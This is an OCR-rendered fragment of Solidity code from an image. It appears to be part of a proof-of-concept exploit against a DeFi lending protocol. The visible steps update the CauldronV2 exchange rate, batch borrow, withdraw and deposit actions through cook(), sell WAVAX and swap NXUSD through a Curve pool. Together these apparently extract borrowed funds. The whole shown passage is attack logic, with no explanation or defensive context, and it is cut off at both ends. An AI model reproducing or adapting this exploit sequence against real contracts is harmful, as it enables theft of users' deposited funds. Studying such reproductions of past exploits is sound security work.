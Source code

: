 │             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │
│             metaPool,                                                                                                                                                                                                                                │
│             0,                                                                                                                                                                                                                                       │
│             2,                                                                                                                                                                                                                                       │
│             998_000 * 1e18,                                                                                                                                                                                                                          │